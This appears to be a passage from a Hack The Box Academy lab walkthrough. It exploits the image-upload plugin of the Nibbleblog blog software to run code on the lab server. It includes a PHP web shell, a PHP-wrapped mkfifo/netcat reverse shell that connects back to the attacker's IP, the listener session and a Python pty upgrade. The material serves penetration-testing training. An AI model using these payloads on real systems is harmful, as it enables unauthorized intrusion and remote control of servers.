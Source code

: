 ![image](picture_lab/picture_03.png)
Let us attempt to use this plugin to upload a snippet of `PHP` code instead of an image.
```php
<?php system('id'); ?>
```
Save this code to a file and then click on the `Browse` button and upload it. Then we get a bunch of errors, but it seems like the file may have uploaded.
```shell-session
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```
go to `http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php`
it show `uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)` 
Let edit our local PHP file and upload it again. This command should get us a reverse shell.
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```
- 10.10.14.2 -> is your ip address
- 9443 -> port to listen
We upload the file again and start a `netcat` listener in our terminal
```shell-session
┌─[us-academy-5]─[10.10.14.62]─[htb-ac-1387859@htb-5zbkwxowyt]─[~/Downloads]
└──╼ [★]$ nc -lvnp 9443
listening on [any] 9443 ...
connect to [10.10.14.62] from (UNKNOWN) [10.129.200.170] 43536
/bin/sh: 0: can't access tty; job control turned off

```
we will use a `Python` one-liner to spawn a pseudo-terminal so commands such as `su` and `sudo` work as discussed previously in this Module
go to `http://10.129.200.170/nibbleblog/content/private/plugins/my_image/`
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
